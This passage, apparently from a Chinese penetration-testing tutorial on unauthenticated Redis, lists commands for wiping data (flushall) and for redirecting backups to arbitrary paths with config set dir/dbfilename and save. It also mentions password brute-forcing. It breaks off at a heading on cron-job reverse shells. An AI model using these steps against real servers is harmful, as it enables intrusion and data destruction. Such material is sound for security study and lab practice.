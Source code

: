 ![image-20210906112029813](/assets/images/20210911/image-20210906112029813.png)

连接后部分常用redis命令

```
flushall  //删除所有内容，仅在测试靶场合理使用，实战测试慎用！慎用！慎用！

coinfig get dir //查看当前备份路径

config set dir /xxx/xxx/    //更改备份存放路径

config get dbfilename //查看备份文件信息

config set dbfilename xxxx  //更改备份文件名称

get keyname  //获取键值对

set keyname "-value-"  //设置键值对

save //保存到磁盘
```



redis未设置安全策略可以直接进行连接管理，甚至执行系统命令等，后续其他漏洞也是已此问题为基础进行。

存在密码的时候可以通过些口令爆破的工具进行密码猜解，字典强大也是可以的。



## 计划任务反弹shell

### 利用条件
